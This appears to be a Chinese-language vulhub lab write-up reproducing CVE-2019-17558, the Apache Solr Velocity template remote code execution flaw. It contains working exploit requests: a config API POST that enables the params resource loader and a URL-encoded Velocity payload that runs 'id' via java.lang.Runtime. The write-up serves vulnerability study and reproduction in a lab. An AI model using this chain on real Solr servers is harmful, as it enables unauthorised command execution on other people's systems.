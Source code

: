 # 通过Velocity自定义模板执行Apache Solr远程执行代码（CVE-2019-17558）

###### by ADummy

### 0x00利用路线

​			Burpsuite发包获取API名称--->`params.resource.loader.enabled`通过API启用配置--->模板命令执行

### 0x01漏洞介绍			

​			Solr是基于Apache Lucene（TM）构建的流行，快速，开放源代码的企业搜索平台。

从Apache Solr 5.0.0到Apache Solr 8.3.1容易受到通过VelocityResponseWriter的远程执行代码的攻击。可以通过configset`velocity/`目录中的Velocity模板或作为参数来提供Velocity模板。用户定义的配置集可能包含可渲染的，可能是恶意的模板。参数提供的模板默认情况下处于禁用状态，但可以`params.resource.loader.enabled`通过定义该属性设置为的响应编写器进行设置来启用`true`。定义响应编写器需要配置API访问。Solr 8.4完全删除了params资源加载程序，并且仅在configset为`trusted`（已通过身份验证的用户上传）时才启用configset提供的模板呈现。

##### 影响版本

```
5.0.0 < Apache Solr < 8.3.1
```

### 0x02漏洞复现

首先，您需要通过以下API获取所有内核名称：

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

这`demo`是这里唯一的核心：

![Apache_Solr_Velocity_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_Solr_Velocity_RCE_1.jpg)



`params.resource.loader.enabled`通过以下API启用配置，API端点为`/solr/[core name]/config`：

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

![Apache_Solr_Velocity_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_Solr_Velocity_RCE_2.jpg)

然后，通过Velocity模板触发漏洞：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![Apache_Solr_Velocity_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_Solr_Velocity_RCE_3.jpg)

### 0x03参考资料

https://nvd.nist.gov/vuln/detail/CVE-2019-17558

https://issues.apache.org/jira/browse/SOLR-13971

https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133

https://github.com/jas502n/solr_rce